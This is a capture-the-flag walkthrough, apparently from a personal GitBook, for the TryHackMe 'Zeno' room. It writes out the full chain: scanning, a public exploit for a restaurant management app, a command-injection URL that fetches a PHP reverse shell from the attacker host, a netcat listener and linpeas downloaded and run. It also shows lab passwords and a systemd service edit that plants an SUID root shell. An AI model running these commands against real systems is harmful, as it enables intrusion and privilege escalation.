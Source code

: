 # Zeno

R**oom Link:** [https://tryhackme.com/room/zeno](https://tryhackme.com/room/zeno)



## **Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/12340- HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:12340 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Restaurant Management System Exploit

**Exploit:** [https://www.exploit-db.com/raw/47520](https://www.exploit-db.com/raw/47520)

The code needed some fixing up

**From**

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**To**

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python exploit.py http://$VICTIM:12340/rms/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```



**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Browser**

```
http://$VICTIM:12340/rms/images/reverse-shell.php?cmd=curl%20-O%20http://10.10.57.58:81/php-reverse-shell.php
```



**Kali**

```
nc -lvnp 1337
```

**Browser**

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl -O http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## MySQL

**Victim**

```
mysql -u root -pveerUffIrangUfcubyig
```

**Victim(mysql)**

```
show databases;
use dbrms;
show tables;
select * from members;
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Edwards password was still not found

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I went back to linpeas and found another password, it's for a different user but it still worked.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/22- SSH

**Kali**

```
ssh edward@$VICTIM
Password: FrobjoodAdkoonceanJa
```



**Victim(edward)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim(apache)**

```
find /etc -type f -perm /g=w -exec ls -l {} + 2> /dev/null 
```

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

**Victim(apache)**

```
vi /etc/systemd/system/zeno-monitoring.service
```

**From**

<figure><img src="../../.gitbook/assets/image (808).png" alt=""><figcaption></figcaption></figure>

**To**

```
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /home/edward/bash_root; chmod +xs /home/edward/bash_root'

[Install]
WantedBy=multi-user.target
```

<figure><img src="../../.gitbook/assets/image (810).png" alt=""><figcaption></figcaption></figure>

**Victim(edward)**

```
sudo /usr/sbin/reboot
```

**Kali**

```
ssh edward@$VICTIM
Password: FrobjoodAdkoonceanJa
```

**Victim(edward)**

```
ls -lah
./bash_root -p
```

<figure><img src="../../.gitbook/assets/image (811).png" alt=""><figcaption></figcaption></figure>
